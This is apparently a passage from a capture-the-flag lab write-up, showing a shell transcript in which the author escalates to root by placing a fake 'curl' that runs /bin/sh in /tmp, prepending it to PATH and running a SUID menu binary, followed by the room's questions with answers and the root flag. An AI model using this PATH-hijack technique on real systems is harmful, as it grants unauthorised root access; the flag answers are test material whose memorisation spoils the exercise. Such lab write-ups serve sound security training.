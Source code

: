 ```bash
/bin/ping
/bin/su
/bin/ping6
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
HTTP/1.1 200 OK
Date: Mon, 29 Nov 2021 06:49:20 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Wed, 04 Sep 2019 09:07:20 GMT
ETag: "c8-591b6884b6ed2"
Accept-Ranges: bytes
Content-Length: 200
Vary: Accept-Encoding
Content-Type: text/html
kenobi@kenobi:~$ cd /tmp
kenobi@kenobi:~$ echo /bin/sh > curl
kenobi@kenobi:~$ chmod 777 curl
kenobi@kenobi:~$ export PATH=/tmp:$PATH
kenobi@kenobi:~$ /usr/bin/menu
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# Id
# cat /root/root.txt
177b3cd8562289f37382721c28381f02
```

## ANSWER THE FOLLOWING:
----

SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.
To search the a system for these type of files run the following: find / -perm -u=s -type f 2>/dev/null
1.What file looks particularly out of the ordinary? 
>>/usr/bin/menu

2.Run the binary, how many options appear?
>>3

Strings is a command on Linux that looks for human readable strings on a binary.
This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).
As this file runs as the root users privileges, we can manipulate our path gain a root shell.
3.We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!
>>No answer needed

4.What is the root flag (/root/root.txt)?
>>177b3cd8562289f37382721c28381f02

----


